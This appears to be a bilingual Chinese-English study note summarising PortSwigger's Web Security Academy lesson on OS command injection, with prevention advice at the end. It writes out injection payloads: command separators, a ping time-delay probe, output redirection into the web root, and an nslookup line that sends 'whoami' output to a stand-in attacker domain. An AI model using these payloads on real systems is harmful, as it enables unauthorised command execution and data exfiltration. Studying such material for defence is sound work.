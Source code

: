 ```yaml
---
layout: article
title: WSAcademy 4 -- OS command injection
mathjax: true
key: a00015
cover: /bkgs/1.png
modify_date: 2021-10-15
show_author_profile: true
excerpt_type: html
tag: 
- WSAcademy
- Command injection 
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


这篇是Web Security Academy的OS command injection部分<!--more-->

原文：[What is OS command injection, and how to prevent it? | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/os-command-injection)

# OS command injection

| **Purpose of command** | **Linux**    | **Windows**    |
| ---------------------- | ------------ | -------------- |
| Name  of current user  | whoami       | whoami         |
| Operating  system      | uname  -a    | ver            |
| Network  configuration | ifconfig     | ipconfig  /all |
| Network  connections   | netstat  -an | netstat  -an   |
| Running  processes     | ps  -ef      | tasklist       |

Many instances of OS command injection are blind vulnerabilities. 

就是说返回看不到结果，就需要一些技巧：

## using time delays

比如ping命令，like：

& ping -c 10 127.0.0.1 &

This command will cause the application to ping its loopback network adapter for 10 seconds.

|| to comment （wtf？）

## redirecting output

like：& whoami > /var/www/static/whoami.txt &

and fetch https://vulnerable-website.com/whoami.txt to retrieve the file

## using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

利用外带来取数据, using OAST techniques.

For example:  `& nslookup kgji2ohoyw.web-attacker.com &`

exfiltrate the output

```shell
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

result would be :  wwwuser.kgji2ohoyw.web-attacker.com

## Ways of injecting OS commands

work on both Windows and Unix-based systems:

- &
- &&
- |
- ||

only on Unix-based systems:

- ;
- Newline (0x0a or \n)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

```
` injected command `
$( injected command )
```

输入在引号内的话需要先“”

## How to prevent OS command injection attacks

- 最有效方法是永远不要从应用层代码调用OS命令

- 检查输入

- - whitelist
  - number only
  - only alphanumeric characters,  no other syntax or whitespace.

- Never attempt to sanitize input  by escaping shell metacharacters

